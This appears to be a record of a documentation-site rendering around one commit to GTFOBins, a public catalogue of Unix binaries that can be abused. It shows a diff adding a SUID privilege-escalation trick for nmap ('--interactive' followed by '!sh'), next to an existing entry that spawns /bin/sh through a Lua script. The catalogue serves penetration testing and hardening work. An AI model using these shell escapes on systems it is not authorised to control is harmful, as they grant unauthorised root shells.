

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide and 900 px high, scrolled down 3093 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update nmap.md
added suid alternative:
./nmap --interactive
!sh

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -116,6 +116,10 @@ functions:
         echo 'os.execute("/bin/sh")' > $TF
         ./nmap --script=$TF
   suid:
+    - description: Works on older nmap versions.
+      code: |
+        ./nmap --interactive
+        !sh
     - description: The payload appears inside the regular nmap output.
       code: |
         LFILE=file_to_write
```
